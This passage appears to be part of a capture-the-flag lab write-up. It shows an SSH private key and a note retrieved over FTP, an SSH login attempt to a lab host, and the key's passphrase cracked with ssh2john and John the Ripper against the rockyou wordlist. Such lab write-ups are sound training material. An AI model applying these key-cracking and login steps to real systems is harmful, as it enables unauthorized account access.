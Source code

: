 ```bash

ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (78 bytes).
226 Transfer complete.
78 bytes received in 0.00 secs (15.3079 kB/s)
```

I looked at the note.txt file. It contains an explanation (a bad one) about why there is an ssh key in there.

```
cat note.txt 
I always forget my password. Just let me store an ssh key here.
- errorcauser
```

I tried using the ssh key with the `errorcauser` username to connect to the server, but it requires a password.

```bash
$ chmod 600 id_rsa 

$ ssh errorcauser@target -i id_rsa 
The authenticity of host 'target (10.10.48.223)' can't be established.
ECDSA key fingerprint is SHA256:UR0k9a7qaFtt3RxI1gSKeBdDz+4jrasPZ6i0Mtkq10Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target,10.10.48.223' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

So I started cracking it's password with John. If you don't know how to do it, the room has some explanation. 

```bash
$ python2 /usr/share/john/ssh2john.py id_rsa > john.hash

$ john john.hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
SSH_KEY_PASSWORD (id_rsa)
1g 0:00:00:29 DONE (2021-04-17 09:38) 0.03417g/s 490146p/s 490146c/s 490146C/sa6_123..*7¡Vamos!
Session completed

```

This gave me the answers to the two questions of the section.
